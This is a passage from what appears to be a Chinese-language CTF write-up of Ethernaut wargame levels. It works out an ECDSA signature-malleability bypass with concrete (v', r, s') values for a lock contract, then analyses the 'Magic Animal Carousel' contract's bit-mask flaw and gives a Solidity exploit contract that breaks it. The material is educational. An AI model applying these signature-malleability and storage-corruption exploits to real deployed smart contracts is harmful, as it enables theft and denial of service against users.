使用` pop() `将call的结果从栈中取出，调用的函数是` ecrecover `，输入参数开始的偏移是` ptr `，也就是内存` 0x40 `开始，大小是` 0x80 `，返回值开始的偏移是` 0x00 `，大小是` 0x20 `，此时的内存图：

| 偏移 |                             数据                             |      备注      |
| :--: | :----------------------------------------------------------: | :------------: |
| 0x00 |         "\x19Ethereum Signed Message:\n32" + lockId          | 会被返回值覆盖 |
| 0x20 |                 上面0x00-0x1f中未存下的数据                  |                |
| 0x40 | msgHash = keccak("\x19Ethereum Signed Message:\n32" + lockId) |    输入参数    |
| 0x60 |                              v                               |    输入参数    |
| 0x80 |                              r                               |    输入参数    |
| 0xa0 |                              s                               |    输入参数    |

```solidity
assembly {
    if iszero(returndatasize()) {
        mstore(0x00, 0x8baa579f) // `InvalidSignature()`.
        revert(0x1c, 0x04)
    }
    initialController := mload(0x00)
    mstore(0x40, add(ptr, 128))
}
```

检查返回值是0的话直接报错` InvalidSignature() `，不是0的话则将返回值赋值给` initialController `，然后将` msgHash `清零（因为` ptr + 128 `处并未有值）；

```solidity
// Invalidate signature
usedSignatures[keccak256(_signature)] = true;

// Set the controller
controller = initialController;

// emit LockInitializated
emit LockInitializated(initialController, block.timestamp);
```

最后就是设置已经使用过该签名、设置` controller `，释放` LockInitializated `；

但这边好像也没什么能够使任何人能够开门，我们根本控制不了这边，继续往下分析函数；

` open() `函数验证签名，并打开门；

` changeController() `函数验证签名，改变` controller `；

` _isValidSignature() `内部函数检查控制者和签名是否使用过；

我们发现` open() `和` changeController() `都会使用` _isValidSignature() `，且不知道正确签名的人该函数会返回null，也就是全0，那么我们只需调用` changeController() `函数将其设置为` 0x00...00 `即可；

由题目所知，计算哈希的方法是` ECDSA-椭圆曲线签名算法 `（此处就不展开说），它是基于椭圆曲线的，关于x轴对称，也就是说，一个x值会对应两个y值：


一个签名对应的一对` (v, r, s) `，同时也会有另一对` (v', r, s') `；接下来我们要做的，就是根据现有的` (v, r, s) `找出` (v', r, s') `；

[以太坊底层签名与校验技术](https://learnblockchain.cn/books/geth/part3/sign-and-valid.html)；

首先就是` v `，以太坊中` v `的值是0或1，但需要加上27，也就是，` v `只能是27或28；

其次是` s `，有公式` s' = -s mod n `，也就是` s' = n - s `，并且以太坊中的n是一个固定的质数：

` 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141 `；

下面就用到了之前事件中的值：

` v `（偏移0x60）：0x000000000000000000000000000000000000000000000000000000000000001b

` r `（偏移0x20）：0x1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b91

` s `（偏移0x40）：0x78489c64a0db16c40ef986beccc8f069ad5041e5b992d76fe76bba057d9abff2

按照上面的分析来计算：

` v' `：0x000000000000000000000000000000000000000000000000000000000000001c

` r `：0x1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b91

` s' `：0x87b7639b5f24e93bf106794133370f950d5e9b00f5b5c8cbd866a487529b814f

所以我们只需调用` changeController() `函数，输入正确的(v', r, s')，将` controller `变更为` 0x0000000000000000000000000000000000000000 `即可；


#### 攻击


## Level_33.Magic Animal Carousel

要求：

> 使旋转木马停止工作；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

contract MagicAnimalCarousel {
    uint16 constant public MAX_CAPACITY = type(uint16).max;
    uint256 constant ANIMAL_MASK = uint256(type(uint80).max) << 160 + 16;
    uint256 constant NEXT_ID_MASK = uint256(type(uint16).max) << 160;
    uint256 constant OWNER_MASK = uint256(type(uint160).max);

    uint256 public currentCrateId;
    mapping(uint256 crateId => uint256 animalInside) public carousel;

    error AnimalNameTooLong();

    constructor() {
        carousel[0] ^= 1 << 160;
    }

    function setAnimalAndSpin(string calldata animal) external {
        uint256 encodedAnimal = encodeAnimalName(animal) >> 16;
        uint256 nextCrateId = (carousel[currentCrateId] & NEXT_ID_MASK) >> 160;

        require(encodedAnimal <= uint256(type(uint80).max), AnimalNameTooLong());
        carousel[nextCrateId] = (carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
            | ((nextCrateId + 1) % MAX_CAPACITY) << 160 | uint160(msg.sender);

        currentCrateId = nextCrateId;
    }

    function changeAnimal(string calldata animal, uint256 crateId) external {
        address owner = address(uint160(carousel[crateId] & OWNER_MASK));
        if (owner != address(0)) {
            require(msg.sender == owner);
        }
        uint256 encodedAnimal = encodeAnimalName(animal);
        if (encodedAnimal != 0) {
            // Replace animal
            carousel[crateId] =
                (encodedAnimal << 160) | (carousel[crateId] & NEXT_ID_MASK) | uint160(msg.sender); 
        } else {
            // If no animal specified keep same animal but clear owner slot
            carousel[crateId]= (carousel[crateId] & (ANIMAL_MASK | NEXT_ID_MASK));
        }
    }

    function encodeAnimalName(string calldata animalName) public pure returns (uint256) {
        require(bytes(animalName).length <= 12, AnimalNameTooLong());
        return uint256(bytes32(abi.encodePacked(animalName)) >> 160);
    }
}
```

#### 分析

题目很抽象，读了好几遍都没懂，所以直接从头开始分析合约；

先从构造函数开始：

```solidity
constructor() {
    carousel[0] ^= 1 << 160;
}
```

carousel[0]的值为` 0x10000000000000000000000000000000000000000 `；

接着看几个常量：

0xffff：` MAX_CAPACITY `，最大数量；

0xffffffffffffffffffff00000000000000000000000000000000000000000000：` ANIMAL_MASK `，可以理解为动物身份；

0x00000000000000000000ffff0000000000000000000000000000000000000000：` NEXT_ID_MASK `，下一个动物的身份ID；

0x000000000000000000000000ffffffffffffffffffffffffffffffffffffffff：` OWNER_MASK `，拥有者身份；

此处将几个常量都扩充成256位，因为这样能看得更清楚；

**此处相当于3个模式匹配串，当一个256位的值与其相与，便会得到相应的动物身份、下一个动物的ID、拥有者身份；**


下面先看` encodeAnimalName() `函数：

```solidity
function encodeAnimalName(string calldata animalName) public pure returns (uint256) {
    require(bytes(animalName).length <= 12, AnimalNameTooLong());
    return uint256(bytes32(abi.encodePacked(animalName)) >> 160);
}
```

光看不是很能理解，直接示例解释，比如输入"WZM"：

` encodePacked `后：0x575a4d0000000000000000000000000000000000000000000000000000000000

` 右移160位` 后：0x575a4d000000000000000000

也就是说，该函数取字符串encode后的前12字节；

**往上联系，会得到动物身份和下一个动物的身份ID；**


接着看` setAnimalAndSpin() `函数：

```solidity
function setAnimalAndSpin(string calldata animal) external {
    uint256 encodedAnimal = encodeAnimalName(animal) >> 16;
    uint256 nextCrateId = (carousel[currentCrateId] & NEXT_ID_MASK) >> 160;

    require(encodedAnimal <= uint256(type(uint80).max), AnimalNameTooLong());
    carousel[nextCrateId] = (carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
        | ((nextCrateId + 1) % MAX_CAPACITY) << 160 | uint160(msg.sender);

    currentCrateId = nextCrateId;
}
```

` encodeAnimal `：` encodeAnimalName() `后得到的12字节后，舍弃最后的2字节，取前10字节，得到**动物身份**；

` nextCrateId `：得到下一个**动物身份ID**；

` (carousel[nextCrateId] & ~NEXT_ID_MASK) `：清空下一个动物身份ID；

` ^ (encodedAnimal << 160 + 16) `：得到需要增加的动物的身份；

` ((nextCrateId + 1) % MAX_CAPACITY) << 160 `：动物身份ID递增1，并且左移到该在的位置；

` uint160(msg.sender) `：消息发送者为动物拥有者；

这三个式子中间的` | `可以理解为是用来连接3个数值的，类似` 100 | 020 | 003 => 123 `；

该函数就是新设置一个动物进去，同时设置动物身份、下一个动物的ID、动物拥有者；


最后看` changeAnimal() `函数：

```solidity
function changeAnimal(string calldata animal, uint256 crateId) external {
    address owner = address(uint160(carousel[crateId] & OWNER_MASK));
    if (owner != address(0)) {
        require(msg.sender == owner);
    }
    uint256 encodedAnimal = encodeAnimalName(animal);
    if (encodedAnimal != 0) {
        // Replace animal
        carousel[crateId] =
            (encodedAnimal << 160) | (carousel[crateId] & NEXT_ID_MASK) | uint160(msg.sender); 
    } else {
        // If no animal specified keep same animal but clear owner slot
        carousel[crateId]= (carousel[crateId] & (ANIMAL_MASK | NEXT_ID_MASK));
    }
}
```

首先得到动物拥有者` owner `，检查其不为0，得到需要更改的动物身份和下一个动物的身份ID` encodedAnimal `，最后重新赋值动物身份，其余位置不变；


合约已经全部详细分析完了，可以发现` encodeAnimalName() `函数得到的是动物身份和下一个动物身份ID，并且在` changeAnimal `时，并未正确的向左移` 160 + 16 `位，所以我们调用` changeAnimal() `时，可以改变下一个动物身份ID，并且动物最大数量是` 0xffff `，而记录的` nextCrateId `是` uint256 `，再往上加是有溢出的；

1. 我们先加一个动物"WZM"，它自己的currentID是1，此时的Next_ID是2：

` carousel[0x0001] ` = 0x575a4d0000000000000000027148c25a8c78b841f771b2b2eead6a6220718390；

2. 调用` changeAnimal() `，更改currentID为` 0x0001 `的动物，并且将Next_ID设置为` 0xffff `，并且` 0xffff | 0x0002 = 0xffff `，此时的值为：

` carousel[0x0001] ` = 0xffffffffffffffffffffffff7148c25a8c78b841f771b2b2eead6a6220718390；

3. 接着再增加一个新的动物"AAA"进来时，currentID为` 0xffff `，此时的Next_ID为` (0xffff + 1) % 0xffff = 1 `；

` carousel[0xffff] ` = 0x4141410000000000000000017148c25a8c78b841f771b2b2eead6a6220718390；

4. 当再有一个动物"BBB"进来时，此时的currentID为` 0x0001 `，并且Next_ID为` 0x0002 `，只要名字不是写满10字节，后面便会有第2步中污染的数据"f"；

` carousel[0x0001] ` = 0xbdbdbdffffffffffffff00027148c25a8c78b841f771b2b2eead6a6220718390；


#### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;
import "./Ethernaut.sol";

contract Exp {
    MagicAnimalCarousel mac;
    constructor(address addr){
        mac = MagicAnimalCarousel(addr);
    }
    function Attack() public {
        mac.setAnimalAndSpin("WZM");
        uint256 currentID = mac.currentCrateId();
        bytes memory strBytes = new bytes(12);
        for (uint i = 0; i < 12; i++) {
            strBytes[i] = bytes1(0xff);
        }
        string memory createString = string(strBytes);
        mac.changeAnimal(createString, currentID);
        mac.setAnimalAndSpin("AAA");
    }
}
```




